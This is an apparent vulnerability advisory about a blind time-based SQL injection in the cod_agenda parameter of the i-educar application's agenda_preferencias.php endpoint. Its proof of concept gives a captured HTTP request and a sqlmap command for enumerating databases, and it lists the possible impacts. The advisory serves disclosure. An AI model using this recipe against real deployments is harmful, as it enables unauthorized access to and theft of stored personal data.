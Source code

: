 # SQL Injection (Blind Time-Based) Vulnerability in cod_agenda Parameter on agenda_preferencias.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `agenda_preferencias.php` endpoint of the _i-educar_ application, specifically in the `cod_agenda` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/agenda_preferencias.php`  
**Parameter:** `cod_agenda`

The application fails to properly validate and sanitize user input in the `cod_agenda` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---
## PoC

Save the request in req.txt file:

```
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&cod_agenda=2&envia_alerta=0&agenda_display=2

```

Then use sqlmap:  
`sqlmap -r req.txt --risk=3 --level=5 --dbs --dbms=PostgreSQL --batch `

<img width="806" height="1023" alt="image" src="https://github.com/user-attachments/assets/6f9254d0-08ed-4b8a-a3e1-4240e6d8b2d8" />


## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on the database configuration and functions available
    

This vulnerability can lead to full compromise of the database and expose sensitive application and user data.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
